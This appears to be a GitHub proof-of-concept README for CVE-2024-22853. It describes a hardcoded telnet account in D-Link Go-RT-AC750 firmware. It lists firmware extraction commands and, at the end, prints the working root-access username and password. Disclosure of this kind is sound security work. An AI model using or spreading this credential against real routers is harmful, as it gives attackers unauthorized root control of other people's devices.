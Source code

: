 # CVE-2024-22853
D-LINK Go-RT-AC750 GORTAC750_A1_FW_v101b03 has a hardcoded password for the Alphanetworks account, which allows remote attackers to obtain root access via a telnet session.

# PoC

https://www.dlink.com/se/sv/products/go-rt-ac750-wireless-ac750-dual-band-easy-router?revision=deu_reva#downloads

![image](https://github.com/FaLLenSKiLL1/CVE-2024-22853/assets/43922662/ebbc672f-9496-4969-86d3-aca4dea8016a)

![image](https://github.com/FaLLenSKiLL1/CVE-2024-22853/assets/43922662/95609d20-b461-446b-8d3f-6d3fff14e0c5)

![image](https://github.com/FaLLenSKiLL1/CVE-2024-22853/assets/43922662/5978844e-2f7b-45fb-9dd8-1dd151dae519)

```
binwalk GORTAC750_A1_FW_v101b03.bin -e
```

![image](https://github.com/FaLLenSKiLL1/CVE-2024-22853/assets/43922662/84abe358-4501-48f9-8a14-5395b96b1df2)

```
cat './go-rt-ac750_fw_reva_1-01b03_eu_multi_20141017/_GORTAC750_A1_FW_v101b03.bin.extracted/squashfs-root/etc/init0.d/S80telnetd.sh'
```

![image](https://github.com/FaLLenSKiLL1/CVE-2024-22853/assets/43922662/833c80e3-d42e-472e-98de-554d470d19d0)

![image](https://github.com/FaLLenSKiLL1/CVE-2024-22853/assets/43922662/e3736618-37ec-4615-bc67-45ee4fe6ebd3)

![image](https://github.com/FaLLenSKiLL1/CVE-2024-22853/assets/43922662/e548c887-01de-4395-a6bb-7f849c6e9ccb)

# Hardcoded Creds:

Alphanetworks:wrgac18_dlob.hans_ac750
